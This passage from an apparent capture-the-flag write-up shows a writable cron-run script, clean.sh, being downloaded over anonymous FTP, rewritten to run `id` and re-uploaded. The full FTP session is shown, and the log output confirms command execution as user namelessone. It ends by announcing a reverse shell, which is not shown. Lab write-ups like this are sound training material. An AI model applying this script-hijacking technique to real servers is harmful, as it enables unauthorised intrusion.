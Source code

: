 So basically, what we can do is execute bash commands per the **clean.sh** bash script and have the output of said command written to the **removed_files.log**. It seems we can get access to more than just the FTP server this way, so let's see if we can enumerate any interesting files on this underlying server. To do this we use the `get` command on the FTP server to download the script to our own machine, edit it with the command we wish to use, for example `id`. Then have it executed to confirm whether this works.


### 2.1 Clean.sh script rewrite:<a name="21-clean-sh-script-rewrite"></a>

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        id >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

We now upload it back to the FTP server by using the `put` command and see if that works. We can also `delete removed_files.log` for a cleaner output, since the script will automatically write to it every minute it seems, thus rewrite the file if it is no longer there.

```
ftp> delete removed_files.log
250 Delete operation successful.
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||49327|)
150 Ok to send data.
100% |**********************************************************************|   267        1.42 MiB/s    00:00 ETA
226 Transfer complete.
267 bytes sent in 00:00 (3.40 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||9897|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          267 Feb 09 12:23 clean.sh
-rw-rw-r--    1 1000     1000          124 Feb 09 12:24 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
ftp> more removed_files.log
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),
108(lxd)
```

Access confirmed, we now got the **namelessone** username who was also stated in the FTP banner during our anonymously login. We could of course see if we can grab any passwords or other interesting files/flags this way. Yet instead, we will rewrite the **clean.sh** script again to spawn a reverse shell to our attacking machine instead so we don't constantly have to wait 1 minute for our command output to be written to the **removed_files.log**.
